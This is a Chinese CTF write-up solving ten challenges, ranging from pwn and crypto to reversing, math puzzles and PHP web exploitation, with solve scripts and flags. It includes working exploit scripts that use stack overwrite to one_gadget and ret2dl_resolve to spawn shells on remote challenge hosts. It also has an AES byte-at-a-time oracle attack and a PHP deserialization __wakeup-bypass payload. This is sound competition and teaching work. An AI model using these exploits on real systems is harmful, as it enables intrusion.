

# Writeup

## 0x00 your_pwn

### 操作内容

程序可以栈任意地址读写，栈上有__libc_start_main的地址，可以泄露 __libc_start_main 地址计算得到 libc 基地址，先自己在本地计算好偏移，我算的为 632（libc_start_main+240），并且通过泄露 libc_start_main 地址得知服务器的libc 为2.23，再修改原指向 __libc_start_main 地址为 one_gadget，最后输入 no, 函数返回时，本应该返回到 main，结果跳到了 one_gadget，从而成功getshell 。

```python
from pwn import *
#p = process("./pwn")
p = remote('1b190bf34e999d7f752a35fa9ee0d911.kr-lab.com',57856)
#context.log_level='debug'
print(p.recvuntil('name:'))
p.sendline('w')
print(p.recvuntil('index'))
def readbyte(offset):
  p.sendline(str(offset))
  p.recvuntil('value(hex) ')
  t = p.recvline()
  v = int(t, 16) & 0xff
  print(p.recvline())
  p.sendline(str(v))
  print(p.recvline())
  return v

def readqword(offset):
  v = 0
  for i in range(8):
    v |= readbyte(offset+i) << (i * 8)
  return v
addr = readqword(632)
print(hex(addr))
libc = addr-0x020740-240
one_gadget = 0x45216+libc
print(hex(one_gadget))

def writebyte(offset,num):
  p.sendline(str(offset))
  p.recvuntil('value(hex) ')
  t = p.recvline()
  print(p.recvline())
  p.sendline(str(num))
  print(p.recvline())

def writeqword(offset,v):
  for i in range(8):
    writebyte(offset+i,v&0xff)
    v = v >> 8

writeqword(632,one_gadget)

for i in range(0,25):
	readbyte(0)
p.interactive()
```


### flag 值

flag{ed7e033d76f1edf8f3aa58d9381537c0}

## 0x01 baby_pwn

### 操作内容

有很明显的栈溢出，只有一行 read，很熟悉....，是 ret2_dl_runtime_resolve的经典题，这里使用 roputils 工具来构造，计算偏移为 44

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
from pwn import  remote
#r = process('./pwn2')
r = remote('da61f2425ce71e72c1ef02104c3bfb69.kr-lab.com',33865)
context.log_level = 'debug'

rop = ROP('./pwn2')
offset = 44
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf)

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
buf += rop.fill(100, buf)
r.send(buf)
r.interactive()
```


### flag 值

flag{c7980ecbf87bbcbf9270005173fd2cd0}

## 0x02 签到题

### 操作内容：

题目说要打开摄像头，一开始不能理解，然后看到题目提示说三人行必有`flag`

所以只要有三个人一起出现在摄像头前，然后就有`flag`了。

（考虑到笔记本摄像头不支持TOF，所以直接朋友圈翻出一张合照，搞定hh）


### FLAG值：

`flag{87e37d95-6a48-4463-aff8-b0dbd27d3b7d}`

## 0x03 saleae

### 操作内容：

拿到了一个`logicdata`文件，上网搜了一下可以用`saleae`这个软件打开

打开后发现是波形图


上面很明显是每八个为一位，很容易猜想的这八个字节对应的就是一个十六进制字符。

第一个频道为时钟信号，猜测是上升沿触发，

然后使用`saleae`将数据导出到`csv`，然后使用`python`脚本解码即可得到`flag`

```python
a = '0011110000111100100111100111100001001111000000001110011110000111111100111111110011111000011110000001111000011110000110010000111100000000100001111001111111000011110000001110000111100001111100001111110000111100001111001111111000011001111001110000111100000011100001111110000111001111000011000010000111111000000111000011001111001110000111100110000100001111110000001001111000011001111000011110011110010000110011110011100111110000001100100111100001100111000011111100000010011110000001111100001100111100111100001111001111111000011111100000010000111100111000010011110000001100100001111110000001000011111100001111001111000000001110000111111000011100001111100110011100111100001100111000011110000000010000111100111111100111111111100111'
b = '0101010101010101001010101010101010010101010101010100101010101010101001010101010101010010101010101011010010101010101010100101010101010101001010101010101010010101010101010100101010101010101001010101010101101001010101010101010010101010101010100101010101010101001010101010101010010101010101010100101101010010101010010101010101010100101010101010101001010101010101010010101010101011010010101010101010100101010101010101001101010101010101001010101010101010010101010101010100101010101010101001010101010101101001010101010101010010101010101010100101010101101010100101010101010101001010101010101010010101010101011010010101010101010100101010101010101001011010101010101001010101010101010010101010101010100101010101010101001010101010101010'

# 上升沿是01，而00代表一段的中止
def decoed(a,b):
    result = []
    tmp = ''
    for i in range(len(a)):
        if b[i:i+2] == '01':
            tmp += a[i]
        elif b[i:i+2] == '00':
            if len(tmp) < 8:
                continue
            result.append(tmp)
            tmp = ''
    return result

text = decoed(a,b)
print(text)

s = ''.join([chr(int(a,2)) for a in text])
print(s)
```

### FLAG值：

`flag{12071397-19d1-48e6-be8c-784b89a95e07`

## 0x04 warmup

### 操作内容

给了一个`sever.py`，观察发现是`AES`加密，输入一段`text`，返回该`text`与`flag`拼接之后加密的内容，


随便输入几个字符串，发现只有其中的几位数发生了变化，在本地环境下搭建环境进行测试：

```python
plaintext>aaa
6161610d0d0d0d0d0d0d0d0d0d0d0d0d
6161612a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a
result>aa903198a7524adeb8eebbfd862df2c41805bead6f6e4dd6d550c41490aef17954a5e79feb88531414d95ed804fb53dd
plaintext>aab
6161620d0d0d0d0d0d0d0d0d0d0d0d0d
6161622a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a
result>aa903298a7524adeb8eebbfd862df2c41805bead6f6e4dd6d550c41490aef17954a5e79feb88531414d95ed804fb53dd
plaintext>aac
6161630d0d0d0d0d0d0d0d0d0d0d0d0d
6161632a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a
result>aa903398a7524adeb8eebbfd862df2c41805bead6f6e4dd6d550c41490aef17954a5e79feb88531414d95ed804fb53dd
plaintext>aad
6161640d0d0d0d0d0d0d0d0d0d0d0d0d
6161642a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a
result>aa903498a7524adeb8eebbfd862df2c41805bead6f6e4dd6d550c41490aef17954a5e79feb88531414d95ed804fb53dd
plaintext>aae
6161650d0d0d0d0d0d0d0d0d0d0d0d0d
6161652a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a2a
result>aa903598a7524adeb8eebbfd862df2c41805bead6f6e4dd6d550c41490aef17954a5e79feb88531414d95ed804fb53dd
plaintext>
```

经过多次尝试之后发现了一个规律，由于`AES`加密是流加密，对应的块会使用对应的加密算法，这个时候我们可以尝试构造一个偏移，让任意字符偏移到一个字母上，然后进行循环爆破，如果字符是与密文一致的话，加密出来的结果也是相同的，于是给出`exp`

```python
import socket

addr = ('08560bfda40f2691789fc1b246a80c4e.kr-lab.com', 54321)
cset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxy0123456789!"#$%&()*+, -./:<= >?@[\] ^ _`{ | }~'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(addr)
# print(s.recv(1024))
flag = ''

def judge(data_1, data_2, i):
    beg = (i - 1) * 2
    ed = beg + 2
    return data_1[beg:ed] == data_2[beg:ed]


def crack(i):
    for c in cset:
        msg = c * i + '\n'
        msg = msg.encode()
        s.send(msg)
        data_1 = s.recv(1024)[7:-11]

        msg =  '\n'
        msg = msg.encode()
        s.send(msg)
        data_2 = s.recv(1024)[7:-11]
        # print(data_2)
        if judge(data_1, data_2, i):
            print(c)
            return c
    return '*'

print(s.recv(2014))
for i in range(1,64):
    flag += crack(i)
print(flag)
s.close()
```

使用脚本进行爆破：



但是发现爆破到一半的时候居然出错了emm，怀疑是缓冲区满了，因此实际使用这个脚本的时候还需要拆开成两段来进行爆破


第一段已经拿到了部分flag：`flag{9063a267-25ae-45a3-9c6e`

接着修改参数跑第二段：


得到第二部分的flag：`c6e-62c0eb1db2e9}`

拼接一下就能得到最终flag

```python
flag{9063a267-25ae-45a3-9c6e
						 c6e-62c0eb1db2e9}
```


### FLAG值：

`flag{9063a267-25ae-45a3-9c6e-62c0eb1db2e9}`

## 0x05 Asymmetric

### 操作内容：

看题目是`RSA`的问题，给了我们`e`和`n`还有`base64`编码之后的密文`enc`

首先想到的还是分解$n$，注意到在这道题的时候$n=p^r$，与往常的$n = p*q$不太一样，而且$2\le r \le 10 ​$，感觉甚至可以直接暴力解出来。

丢到[factordb.com](http://factordb.com/index.php?query=754600786340927688096652328072061561501667781193760284816393637647032362908189628005150802929636396969230958922073774180726205402897453096041624408154494621307262657492560975357997726055874834308239749992507552325614973631556754707427580134609221878324704469965450463088892083264951442562525825243127575048386573246756312509362222667015490013299327398464802116909245529065994770788125182846841016932803939806558559335886481214931253578226314057242462834149031625361286317307273138514126289052003214703248070256059405676891634792175775697355408418965738663732479622148276007308404691800186837579126431484536836513358124181380166971922188839934522356902295160649189850427580493328509329115798694580347461641487270793993129066433242544366683131231903590153844590595882428219010673818765995719694470668924781499987923250883546686344997580959954960334567874040563037167422839228466141912000421309282727363913908613116739074234989825489075148091144771967111113068647060175231126374070143480727000247378471525286907200601035581143391602569836131345909055708005758380081303860198696570649330092070410465978479841469533490522594827330661914537170063053059393550673731195548189192109328158876774080143171304333338291909598353550442855717204721)分解，居然直接就给解出来了...

```python
q = 165740755190793304655854506052794072378181046252118367693457385632818329041540419488625472007710062128632942664366383551452498541560538744582922713808611320176770401587674618121885719953831122487280978418110380597358747915420928053860076414097300832349400288770613227105348835005596365488460445438176193451867
r = 4
```

好了得到了$p$和$r$，下面我们只需要根据这些信息求**欧拉函数**的关于$e$的逆元就能得到私钥$d$了

查阅关于欧拉函数的性质发现：

若$n$是$p$的$k$次幂（即$n=p^r ​$）时有
$$
\varphi (n) = p^{r-1}(p-1)
$$
得到欧拉函数值之后只需要调库求出逆元即可，`exp`如下：

```python
# encoding=utf-8
import gmpy2
from Crypto.Util.number import *

p = 165740755190793304655854506052794072378181046252118367693457385632818329041540419488625472007710062128632942664366383551452498541560538744582922713808611320176770401587674618121885719953831122487280978418110380597358747915420928053860076414097300832349400288770613227105348835005596365488460445438176193451867
r = 4
enc = 'YXmuOsaD1W4poLAG2wPrJ/nYZCkeOh2igCYKnZA6ecCeJadT6B3ZVTciPN6LJ8AcAsRXNnkC6+9PNJPhmosSG5UGGbpIcg2JaZ1iA8Sm3fGiFacGvQsJOqqIWb01rjaQ3rDBKB331rrNo9QNOfMnjKr0ejGG+dNObTtvnskICbYbNnSxMxLQF57H5JnWZ3LbbKQ493vmZzwvC6iH8blNPAp3dBlVzDqIAmxmUbk0OzFjPoHphD1oxHdzXyQNW+sLxVldrf9xcItq92jN5sqBYrG8wADIqY1/sqhTMZvkIYFMHqoMQuiRSnVrCF2h2RtGDEayLo0evgXI/0W3YveyKCHViOnG6wypcBFm91ZWdjp3fVW/4DyxW6xu9hg/NlXyRP6pT/OyQpcyTqKRuiXJLWgFUJI/8TRgyAjBLLgSd3U0N3VM8kewXw5j+fMUTCW9/Gy4iP8m52Zabx/vEKdwdGZ0QyvgvAWGUFZ96EK0g1BM/LU9Tuu2R+VKcCSCprg283x6NfYxmU26KlQE6ZrrjLmbCOe0327uaW9aDbLxZytPYIE5ZkzhSsD9JpQBKL30dCy3UKDbcuNgB6SrDddrbIuUd0/kLxuwh6kTqNbC4NDrOT4WAuP4se8GGOK8Wz0dL6rE6FkzMnI4Qg501MTSNQZ4Bp7cNf6H9lTa/4DNOl0='
e = 58134567416061346246424950552806959952164141873988197038339318172373514096258823300468791726051378264715940131129676561677588167620420173326653609778206847514019727947838555201787320799426605222230914672691109516799571428125187628867529996213312357571123877040878478311539048041218856094075106182505973331343540958942283689866478426396304208219428741602335233702611371265705949787097256178588070830596507292566654989658768800621743910199053418976671932555647943277486556407963532026611905155927444039372549162858720397597240249353233285982136361681173207583516599418613398071006829129512801831381836656333723750840780538831405624097443916290334296178873601780814920445215584052641885068719189673672829046322594471259980936592601952663772403134088200800288081609498310963150240614179242069838645027877593821748402909503021034768609296854733774416318828225610461884703369969948788082261611019699410587591866516317251057371710851269512597271573573054094547368524415495010346641070440768673619729280827372954003276250541274122907588219152496998450489865181536173702554116251973661212376735405818115479880334020160352217975358655472929210184877839964775337545502851880977049299029101466287659419446724781305689536816523774995178046989696610897508786776845460908137698543091418571263630383061605011820139755322231913029643701770497299157169690586232187419462594477116374977216427311975598620616618808494138669546120288334682865354702356192972496556372279363023366842805886601834278434406709218165445335977049796015123909789363819484954615665668979
n = 754600786340927688096652328072061561501667781193760284816393637647032362908189628005150802929636396969230958922073774180726205402897453096041624408154494621307262657492560975357997726055874834308239749992507552325614973631556754707427580134609221878324704469965450463088892083264951442562525825243127575048386573246756312509362222667015490013299327398464802116909245529065994770788125182846841016932803939806558559335886481214931253578226314057242462834149031625361286317307273138514126289052003214703248070256059405676891634792175775697355408418965738663732479622148276007308404691800186837579126431484536836513358124181380166971922188839934522356902295160649189850427580493328509329115798694580347461641487270793993129066433242544366683131231903590153844590595882428219010673818765995719694470668924781499987923250883546686344997580959954960334567874040563037167422839228466141912000421309282727363913908613116739074234989825489075148091144771967111113068647060175231126374070143480727000247378471525286907200601035581143391602569836131345909055708005758380081303860198696570649330092070410465978479841469533490522594827330661914537170063053059393550673731195548189192109328158876774080143171304333338291909598353550442855717204721


# 解出p之后使用欧拉函数的性质求出phi
phi = p**(r-1)*(p - 1)
# 求逆元得到d
d = gmpy2.invert(e,phi)
cipher = bytes_to_long(enc.decode('base64'))
ans = pow(cipher, d, n)
print(long_to_bytes(ans))
```


### FLAG值：

`flag{ec33f669d2d659e2bc27dbffdfeb0f38}`

## 0x06 easygo
### 操作内容：

这个比较简单，IDA装上IDAGolangHelper插件恢复出符号，定位到main_main：


gdb在0x4952F0下个断点，随便输入几个字运行，flag就出来了。。


### FLAG值：
flag{92094daf-33c9-431e-a85a-8bfbd5df98ad}

## 0x07 strange_int
### 操作内容：

这题是一个裸机程序。前面512字节loder被BIOS读进内存，loader把后面的部分也读进内存，设置好IDT/GDT后，执行长跳转进入保护模式。观察GDT表的值，发现cs和ds都指向了0x00000000，所以可以把image.bin的头512字节切掉，拖进IDA分析。


同时使用bochs对程序进行调试。在调试过程中发现，每次运行到0x64时，中断号都会被改变。继续跟踪发现sub_68()会读取0x0d48[edi*4]处的值并据此修改中断号。在bochs中查看IDT：


再在IDA中查看中断向量表对应的地址：


发现这是个VM。sub_68()每次会读12个字节，第一个DWORD低8位对应指令码（即中断号），第二、三个DWORD是操作数，而内存0x0b64~0x0b77这5个DWORD是VM的寄存器，0x0b78处则是VM的程序计数器。当指令码为0X2f（输出"correct")或0x30(输出"wrong")时，程序结束。

写了个脚本把0x0d48开始（对应文件+0f48h）的内容dump出来，并对应汇编恢复出每条VM指令的行为：
(a=(DWORD\*)0x0b64, b=(DWORD\*)0x0d48)

```
int_num=0x21, ecx=0x0, eax=0x81  a[0]=0x81
int_num=0x27, ecx=0x1, eax=0x1   xor a[1],a[1]
int_num=0x24, ecx=0x1, eax=0x1   b[a[1]]=a[1]
int_num=0x23, ecx=0x2, eax=0x0   a[2]=b[a[0]]
int_num=0x22, ecx=0x3, eax=0x2   a[3]=a[2]
int_num=0x21, ecx=0x4, eax=0x8   mov a[4],0x8
int_num=0x28, ecx=0x3, eax=0x4   a[3]=a[3]<<(a[4]&0xff)
int_num=0x27, ecx=0x2, eax=0x3   xor a[2],a[3]
int_num=0x28, ecx=0x3, eax=0x4   a[3]=a[3]<<(a[4]&0xff)
int_num=0x27, ecx=0x2, eax=0x3   xor a[2],a[3]
int_num=0x28, ecx=0x3, eax=0x4   a[3]=a[3]<<(a[4]&0xff)
int_num=0x27, ecx=0x2, eax=0x3   xor a[2],a[3]
int_num=0x27, ecx=0x3, eax=0x3   xor a[3],a[3]
int_num=0x23, ecx=0x4, eax=0x3   mov a[4],b[a[3]]
int_num=0x24, ecx=0x3, eax=0x2   mov b[a[3]],a[2]
int_num=0x27, ecx=0x2, eax=0x4   xor a[2],a[4]
int_num=0x24, ecx=0x0, eax=0x2   mov b[a[0]],a[2]
int_num=0x21, ecx=0x1, eax=0x1   mov a[1],1
int_num=0x25, ecx=0x0, eax=0x1   add a[0],a[1]
int_num=0x22, ecx=0x1, eax=0x0   mov a[1],a[0]
int_num=0x21, ecx=0x2, eax=0x81  mov a[2],0x81
int_num=0x26, ecx=0x1, eax=0x2   sub a[1],a[2]
int_num=0x21, ecx=0x2, eax=0x9   mov a[2],9
int_num=0x26, ecx=0x1, eax=0x2   sub a[1],a[2]
int_num=0x21, ecx=0x2, eax=0x9   mov a[2],9
int_num=0x2d, ecx=0x2, eax=0x1   test a[1],a[1]; jnz a[2]
int_num=0x21, ecx=0x0, eax=0x81  a[0]=0x81
int_num=0x22, ecx=0x1, eax=0x0   mov a[1],a[0]
int_num=0x21, ecx=0x2, eax=0x9   mov a[2],9
int_num=0x25, ecx=0x1, eax=0x2   add a[1],a[2]
int_num=0x23, ecx=0x3, eax=0x0   a[3]=b[a[0]]
int_num=0x23, ecx=0x4, eax=0x1   a[4]=b[a[1]]
int_num=0x26, ecx=0x3, eax=0x4   sub a[3],a[4]
int_num=0x21, ecx=0x4, eax=0x7e  mov a[4],0x7e
int_num=0x2d, ecx=0x4, eax=0x3   test a[3],a[3]; jnz a[4]
int_num=0x21, ecx=0x3, eax=0x1   mov a[3],1
int_num=0x25, ecx=0x0, eax=0x3   add a[0],a[3]
int_num=0x25, ecx=0x1, eax=0x3   add a[1],a[3]
int_num=0x26, ecx=0x2, eax=0x3   sub a[2],a[3]
int_num=0x21, ecx=0x4, eax=0x5a  mov a[4],0x5a
int_num=0x2d, ecx=0x4, eax=0x2   test a[2],a[2]; jnz a[4]
int_num=0x2f, ecx=0x0, eax=0x0
int_num=0x30, ecx=0x0, eax=0x0
```

这段代码从内存0x0f4c（文件+114ch)读出36个字节，经过一系列运算，再与内存0x0f70（文件+1170h)的36个字节进行比较，若一致则输出correct。理解这段代码后，就可以用0x0f70处的值倒推出flag了：

```
c = [0x65, 0x55, 0x63, 0x57, 0x1, 0x4, 0x53, 0x6, 0x49, 0x49, 0x49, 0x1f, 0x1f, 0x7, 0x57, 0x51, 0x57, 0x43, 0x5f, 0x57, 0x57, 0x5e, 0x43, 0x57, 0xa, 0x2, 0x57, 0x43, 0x5e, 0x3, 0x5e, 0x57, 0x0, 0x0, 0x59, 0xf]
tmp = [0, 0, 0, 0]

for i in range(0, len(c), 4):
	for j in range(4):
		tm2 = c[i+j]
		c[i+j] = c[i+j] ^ tmp[j]
		tmp[j] = c[i+j]
	c[i+1] = c[i+1] ^ c[i]
	c[i+2] = c[i+2] ^ c[i+1] ^ c[i]
	c[i+3] = c[i+3] ^ c[i+2] ^ c[i+1] ^ c[i]

flag1 = ''
for i in range(len(c)):
	flag1 += chr(c[i])

print(flag1)
```

### FLAG值：
flag{e064d5aa-5a72-11e9-9200-88e9fe80feaf}

## 0x08 puzzles
### 操作内容：

## question 0

用z3解：

```
from z3 import *
a1=Int('a1')
a2=Int('a2')
a3=Int('a3')
a4=Int('a4')
s=Solver()
s.add(13627*a1+26183*a2+35897*a3+48119*a4==347561292)
s.add(23027*a1+38459*a2+40351*a3+19961*a4==361760202)
s.add(36013*a1+45589*a2+17029*a3+27823*a4==397301762)
s.add(43189*a1+12269*a2+21587*a3+33721*a4==350830412)
s.check()
m=s.model()
print(hex(int(str(m[a1]))), hex(int(str(m[a2]))), hex(int(str(m[a3]))), hex(int(str(m[a4]))))
```

0xfa6 0xbed 0x9c7 0xa00

## question 1

找质数

```
sage: for i in range(26364809,26366622):
....:     if is_prime(i):
....:         print(i)
....:
```

2636480，26366033，26366621分别是第1，75，112个，那么part1是第38个，即26365399=0x01924dd7

## question 2

算积分，part2=(1+91+7+1)*77=7700=0x1e14

## question 3

物理题

$\Phi=BS=B{\pi}r^2$	

$E={\frac{d\Phi}{dt}}={\frac{d\Phi}{dr}}{\frac{dr}{dt}}=2B{\pi}r{\frac{dr}{dt}}$

解得part3=80*233=18640=0x48d0

## question 4

三重积分，
$\frac{part4 \times \pi}{120} = \frac{2\pi}{3}(8^3-2^3)$

part4=80*504=40320=0x9d80

### FLAG值：
flag{01924dd7-1e14-48d0-9d80-fa6bed9c7a00}


## 0x09 justsoso
### 操作内容：
php://读到hint.php和index.php

///绕过parse_url
然后修改反序列化的对象属性个数，跳过__wakeup，随机范围比较小，然后就暴力跑了
```
import requests,string,urllib,base64,time
s=requests.session()

pay1 = 'O:6:"Handle":3:{s:14:"\x00Handle\x00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"fae0b27c451c728867a567e8c1bb4e53";s:10:"token_flag";s:32:"fae0b27c451c728867a567e8c1bb4e53";}}'
pay2 = 'O:6:"Handle":3:{s:14:"\x00Handle\x00handle";O:4:"Flag":3:{s:4:"file";s:9:"index.php";s:5:"token";s:32:"fae0b27c451c728867a567e8c1bb4e53";s:10:"token_flag";s:32:"fae0b27c451c728867a567e8c1bb4e53";}}'

url1='http://127.0.0.1///tf/index.php?file=hint.php&payload='
url='http://68c5366512a34d1f8f07e684e9b4271a33f631f461664fc3.changame.ichunqiu.com///index.php?file=hint.php&payload='

i=0
while(1):
    r=s.get(url=url+pay1)
    i+=1
    print(i)
    print(r.text)
    #print(len(r.text))
    time.sleep(1)
    if len(r.text)!=101:#"error_reporting" in r.text:
        print(i)
        print(r.text)
        break
        time.sleep(10)
        #print("flag is %s"%flag)
    if 'flag' in r.text:
        print(r.text)
        print('found!')
        break
    if '?php' in r.text:
        print(r.text)
        print(found)
        break
```

### FLAG值：(照着图片敲的，指不定打错了)
flag{055c9bcb-cbb5-49b9-8afb-4c585b018deb}